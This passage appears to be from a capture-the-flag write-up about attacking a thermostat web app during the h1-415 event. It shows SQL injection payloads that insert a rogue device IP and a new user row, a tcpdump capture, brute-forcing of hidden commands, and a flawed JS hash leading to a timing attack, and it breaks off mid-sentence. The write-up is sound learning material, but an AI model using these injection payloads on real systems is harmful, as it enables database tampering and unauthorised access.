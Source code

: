 #### Maybe a SSRF?

What if I could insert another IP into the devices table and use `setTemp` command to change thermostat temperature? Maybe when someone change the temperature all devices will receive a HTTP request with some authorization token and so I could use this to log in. Seems viable. First step is to try `INSERT`:

```java
System.out.println(PayloadRequest.sendCommand("';INSERT INTO devices(ip) values('X.X.X.X'); commit#", "", "getTemp"));
```
Ok, it worked. I have my IP address as a device. Now let's run tcpdump [6] on my server (X.X.X.X) to capture all network traffic. Lastly, we need to send some resquests with `getTemp` and `setTemp` commands.

`# tcpdump -i eth0 -nnvvXS`

But "nothing" happens... only a connection (port 80) from someone in San Francisco during h1-415. :) Definitively I should remove my IP address. Dead end here.

#### Create another user?

We are able to insert any device, maybe we can insert another user and use this as login and password for Thermostat Login.

```java
System.out.println(PayloadRequest.sendCommand("';INSERT INTO users(username, password) values('manoelt','e08e9df699ce8d223b8c9375471d6f0f'); commit#", "", "getTemp"));
```

No. We are not able to log in! :(

#### Another command?

And if there is another parameter? Let's brute force it!

After some time just popped up a `diag` command with the following response `{"success": false, "error": "Missing diagnostic parameters"}`. Nice, time to brute force parameters name now... After some days trying to guess the parameter for diag command using all sort of wordlists, even using cewl [13] to build specific wordlist from real Thermostats manuals, at the end nothing was found! 

### Timing Attack

Maybe I should rewrite the JS code from `login.js` to python and do a code review? Ok... So while doing code review I noted something odd on JS code:

```javascript
function hash(x) {
	x += '\x01\x00';
	while((x.length & 0xFF) != 0)
		x += String.fromCharCode((x.length & 0xFF) ^ x.charCodeAt[x.length & 0xFF]);
	...
}
```
Can you see it? This is a padding algorithm and the XOR operation is not working as expected, because of this:
